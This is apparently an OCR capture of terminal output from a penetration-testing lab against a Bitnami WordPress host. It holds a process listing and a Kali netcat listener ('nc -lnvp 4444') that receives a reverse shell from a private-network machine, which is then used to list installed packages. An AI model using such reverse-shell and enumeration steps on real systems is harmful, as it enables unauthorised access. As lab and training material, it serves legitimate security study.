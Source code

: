     daemon    1526  0.0  2.6 987396 13332 ?        Sl   20:04   0:01 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    daemon    1527  0.0  1.6 969920  8504 ?        Sl   20:04   0:01 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    daemon    1528  0.1  2.2 986516 11088 ?        Sl   20:04   0:05 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    root      1671  0.0  0.2 104328  1392 ?        Sl   20:05   0:00 /usr/bin/monit -c /etc/monit/monitrc
    root      1697  0.0  0.1  14536   952 tty1     Ss+  20:05   0:00 /sbin/getty -8 38400 tty1
    daemon    1717  0.0  2.9 986316 14780 ?        Sl   20:09   0:01 /opt/bitnami/apache2/bin/httpd.bin -f /opt/bitnami/apache2/conf/httpd.conf -DDISABLE_BANNER
    daemon    1746  0.0  7.2 266228 36288 ?        S    20:09   0:00 php-fpm: pool wordpress
    daemon    1913  0.0  0.1   4440   652 ?        S    21:08   0:00 sh -c ps aux
    daemon    1914  0.0  0.2  15564  1164 ?        R    21:08   0:00 ps aux
.

    ┌──(kali㉿kali)-[~]
    └─$ nc -lnvp 4444
    listening on [any] 4444 ...
    connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 34038
    dpkg -l
    Desired=Unknown/Install/Remove/Purge/Hold
    | Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
    |/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
    ||/ Name                            Version                          Architecture Description
    +++-===============================-================================-============-===============================================================================
    ii  adduser                         3.113+nmu3ubuntu3                all          add and remove users and groups
    ii  apt                             1.0.1ubuntu2.8                   amd64        commandline package manager
    ii  apt-utils                       1.0.1ubuntu2.8                   amd64        package management related utility programs
    ii  autoconf                        2.69-6                           all          automatic configure script builder
    ii  automake                        1:1.14.1-2ubuntu1                all          Tool for generating GNU Standards-compliant Makefiles
    ii  autotools-dev                   20130810.1                       all          Update infrastructure for config.{guess,sub} files
    ii  base-files                      7.2ubuntu5.2                     amd64        Debian base system miscellaneous files
    ii  base-passwd                     3.5.33                           amd64        Debian base system master password and group files
    ii  bash                            4.3-7ubuntu1.5                   amd64        GNU Bourne Again SHell
    ii  binutils                        2.24-5ubuntu13                   amd64        GNU assembler, linker and binary utilities
    ii  bsdutils                        1:2.20.1-5.1ubuntu20.4           amd64        Basic utilities from 4.4BSD-Lite
    ii  build-essential                 11.6ubuntu6                      amd64        Informational list of build-essential packages
    ii  busybox-initramfs               1:1.21.0-1ubuntu1                amd64        Standalone shell setup for initramfs
    ii  bzip2                           1.0.6-5                          amd64        high-quality block-sorting file compressor - utilities
    ii  ca-certificates                 20141019ubuntu0.14.04.1          all          Common CA certificates
    ii  console-setup                   1.70ubuntu8                      all          console font and keymap setup program
    ii  coreutils                       8.21-1ubuntu5.1                  amd64        GNU core utilities